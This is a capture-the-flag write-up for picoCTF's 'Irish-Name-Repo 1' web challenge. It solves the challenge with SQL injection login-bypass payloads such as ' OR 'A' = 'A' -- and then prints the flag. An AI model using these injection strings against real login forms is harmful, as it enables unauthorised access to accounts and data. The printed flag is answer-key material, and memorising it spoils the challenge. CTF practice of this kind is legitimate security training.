 # Irish-Name-Repo 1

Point: 300

## Category

Web Exploitation

## Question

There is a website running at https://jupiter.challenges.picoctf.org/problem/50009/ ([link](https://jupiter.challenges.picoctf.org/problem/50009/)) or http://jupiter.challenges.picoctf.org:50009. Do you think you can log us in? Try to see if you can login!

## Hint

There doesn't seem to be many ways to interact with this, I wonder if the users are kept in a database?

Try to think about how does the website verify your login?

## Solution

This is a SQL injection vuln. So, I've tried a basic SQL injection bypass

```bash
Username:       ' OR 'A' = 'A' --
or another one: ' OR 1 --
```

Then click to Login buttom to see the flag

## Flag

`picoCTF{s0m3_SQL_fb3fe2ad}`

